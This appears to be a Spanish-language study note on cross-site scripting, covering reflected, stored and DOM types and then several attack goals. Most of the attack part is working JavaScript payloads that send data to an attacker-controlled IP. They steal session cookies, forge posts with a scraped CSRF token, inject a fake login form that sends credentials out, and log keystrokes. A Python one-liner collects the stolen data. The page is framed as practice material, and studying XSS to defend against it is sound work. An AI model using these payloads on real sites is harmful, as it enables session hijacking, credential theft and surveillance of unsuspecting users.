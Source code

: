 ----
- Tags: #ataque #basic #practica #xss 
----

# ¿ Que es? 

Es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocentimiento. Esta vulnerabilidad permite al atacanta robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

---

# Tipos de vulerabilidades XSS 

- ## Reflejado (Reflected)
Este tipo de **XSS** se produce cuando los datos proporcionados por le usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario. 

- ## Almacenado (Stored)
Este tipo de **XSS** se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada ve que se carga la página. 

- ## DOM-Based
Estipo tipo de **XSS** se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Document Object Model). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

---

- # Fines 

Los fines de esta vulnerabilidad se basan tanto en el contexto, como en el atacante y sus fines. Pero se podrian realizar multiples ataques.

- ## Intentar robar cookie de sesión 

El fin de esto claramente es realizar un **cookie hijacking** para secuestrar la sesión del usuario que visite la sección vulnerable a **XSS** de la página.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/get_cookie.js'></script>

#### Y levantar un servidor en python con nuestro archiv 'get_cookie.js' malicioso: 

> [!bug]
> ```javascript
var request = new XMLHttpRequest();
request.open('GET', `http://192.168.1.38/?cookie=${document.cookie}`);
request.send();

#### También podríamos hacerlo de una manera más facil 
> [!bug]
> ```html
> <script>document.location="http://{our_ip}/?cookie="+document.cookie</script>

Hablamos de un **INTENTO** de robo de sesión ya que si la cookie tiene la opción httpOnly checkeada, seria imposible. 

- ## Realizar acciones como un usuario ( [[CSRF - (Cross-Side Request Forgery)]] )

En este ejemplo, interceptamos con [[Burpsuite]] la petición en la sección vulnerable a **XSS** la cual estaba en una página al hacer una publicación, por lo que se realizaba un **POST** a la ulr tramitando la data ingresada por el usuario a la par que un campo extra el cual se alojaba en la respuesta del servidor por lo que en caso de que fuese dinamico, lo primero que hacemos es capturar este para posteriormente realizar un post como el usuario.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/make_post.js'></script>
> ```

#### Y levantar un servidor en python con nuestro archiv 'make_post.js' malicioso: 

> [!bug]
> ```javascript
const domain = "http://localhost:10007/newgossip";
const req1 = new XMLHttpRequest(); 
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send(); 
>
let response = req1.responseText; 
let parser = new DOMParser();
let doc = parser.parseFromString(response, 'text/html')
let token = doc.getElementsByName('_csrf_token')[0].value; 
>
const data = `title=ME+GUSTA+LA+CIBERSEGURIDAD&subtitle=Este+laburo+es+una+mierda&text=Estoy+re+caliente&_csrf_token=${token}`
>
const req2 = new XMLHttpRequest(); 
req2.open('POST', `http://localhost:10007/newgossip`, false)
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
req2.send(data);


- ## Redirigir a páginas de phishing propias

El fin de esto es redirigir al usuario, no hace falta que sea a una página de phishing, podria ser cualquier recurso, por lo que en el campo vulnerable se deberia introducir: 

> [!bug]
> 
> ```html
><script> window.location.href = 'url'</script>
>```

- ## Intentar realizar un inicio de sesión

En la sección vulnerable  podriamos ingresar un codigo malicioso jugando con JavaScript para intentar crear un formulario de inicio de sesión el cual nos mande las credenciales ingresadas por el usuario a un recurso nuestro.

```html
<div id="formContainer"></div>

<script> 
	var email;
	var password;
	var form = '<form>' + 'Email: <input type="email" id="email" required>' + '<br><br>' + 'Contraseña: <input type="password" id="password" required>' + '<br><br>' + '<input type="button" onclick="submitForm()" value="Ingresar"' + '</form>';
	
	document.getElementById("formContainer").innerHTML = form;
  
	function submitForm(){
		email = document.getElementById("email").value;
		password = document.getElementById("password").value;
	    console.log("Funciona", email, password)
		fetch(`http://192.168.1.38/?email=${email}&password=${password}`);
	}
</script>
```

- ## Realizar un 'key logger'

```html
<script>
	let keys = ""; 

	document.onkeypress = function(e){
		e = e || window.event; 
		keys += e.key;
		keys = keys.replace(" ", ","); 
		var i = new Image(); 
		i.src = `http://192.168.1.38/${keys}`; 
	};
</script>
```

Con este script capturariamos las pulsaciones del usuario, y las mandariamos a una ip en particualar, donde podriamos tenerun servidor de python y filtrando por esta data que nos llega `python -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'`. 
